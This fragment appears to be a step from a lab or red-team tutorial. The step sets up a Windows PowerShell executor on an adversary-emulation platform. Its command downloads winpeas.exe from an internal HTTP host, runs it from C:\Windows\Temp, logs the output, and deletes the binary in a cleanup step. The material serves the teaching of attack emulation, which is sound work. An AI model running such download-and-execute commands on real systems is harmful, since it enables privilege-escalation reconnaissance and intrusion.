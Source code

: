 ![image.png](image%2027.png)

Add windows executor with following details and click Create:

| Platform | windows |
| --- | --- |
| Executor | psh |
| Command | Invoke-WebRequest -Uri "http://10.0.0.100:8000/winpeas.exe" -OutFile "C:\Windows\Temp\winpeas.exe";
Start-Process -FilePath "C:\Windows\Temp\winpeas.exe" -NoNewWindow -Wait | Tee-Object -FilePath "C:\Windows\Temp\notes.txt" |
| Timeout | 300 |
| Cleanup | Remove-Item -Path "C:\Windows\Temp\winpeas.exe" -Force |
